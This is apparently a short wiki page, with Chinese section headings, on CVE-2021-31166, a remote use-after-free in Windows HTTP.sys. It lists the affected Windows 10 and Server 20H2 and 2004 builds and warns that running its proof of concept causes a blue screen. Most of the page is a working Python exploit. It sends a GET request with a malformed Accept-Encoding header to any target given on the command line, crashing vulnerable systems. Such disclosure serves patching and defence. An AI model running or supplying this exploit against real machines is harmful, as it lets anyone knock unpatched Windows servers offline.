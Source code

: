 <languages  /> <translate>

漏洞影響
--------

</translate>

    Windows Server, version 20H2 (Server Core Installation)
    Windows 10 Version 20H2 for ARM64-based Systems
    Windows 10 Version 20H2 for 32-bit Systems
    Windows 10 Version 20H2 for x64-based Systems
    Windows Server, version 2004 (Server Core installation)
    Windows 10 Version 2004 for x64-based Systems
    Windows 10 Version 2004 for ARM64-based Systems
    Windows 10 Version 2004 for 32-bit Systems

POC
---

<translate> ⚠️️執行該POC會出現藍屏。 </translate>

    # Axel '0vercl0k' Souchet - May 16 2021
    import requests
    import argparse

    def main():
        parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')
        parser.add_argument('--target', required = True)
        args = parser.parse_args()
        r = requests.get(f'http://{args.target}/', headers = {
            'Accept-Encoding': 'doar-e, ftw, imo, ,',
        })
        print(r)

    main()

GIF
---

![](windows.gif "windows.gif")